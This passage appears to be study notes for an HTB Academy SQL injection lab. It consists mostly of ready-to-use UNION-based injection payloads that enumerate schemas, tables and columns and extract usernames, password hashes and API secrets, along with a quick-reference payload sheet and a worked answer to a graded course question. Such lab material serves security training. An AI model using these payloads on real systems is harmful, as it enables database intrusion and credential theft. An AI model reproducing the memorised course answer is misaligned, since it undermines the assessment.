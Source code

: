 ```sql
-- Results: credentials, posts, framework, pages

-- 5. Columns in credentials table
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
-- Results: username, password

-- 6. Extract credentials data
cn' UNION select 1, username, password, 4 from dev.credentials-- -
-- Results: admin/hash, dev_admin/hash, api_key/secret
```

**HTB Academy Question Solution:**
```sql
-- "What is the password hash for 'newuser' in 'users' table in 'ilfreight' database?"

-- Step 1: Enumerate columns in users table
cn' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'-- -

-- Step 2: Extract newuser password  
cn' UNION SELECT 1,username,password,4 FROM ilfreight.users WHERE username='newuser'-- -
```

### Quick Reference Payloads

**One-liner enumeration payloads for quick testing:**
```sql
-- Database discovery
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

-- Table discovery  
cn' UNION select 1,table_name,3,4 from INFORMATION_SCHEMA.TABLES where table_schema=database()-- -
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

-- Column discovery
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

-- Advanced filtering
cn' UNION select 1,concat(table_schema,':',table_name),3,4 from INFORMATION_SCHEMA.TABLES where table_schema not in ('mysql','information_schema','performance_schema','sys')-- -
```

### Data Extraction
```sql
-- Extract data from table
cn' UNION select 1, username, password, 4 from dev.credentials-- -

-- Extract specific user data
cn' UNION select 1, username, password, 4 from users where username='admin'-- -

-- Concatenate multiple columns
cn' UNION select 1, concat(username,':',password), 3, 4 from users-- -

-- Extract with conditions
cn' UNION select 1, username, password, 4 from users where id=1-- -
```

---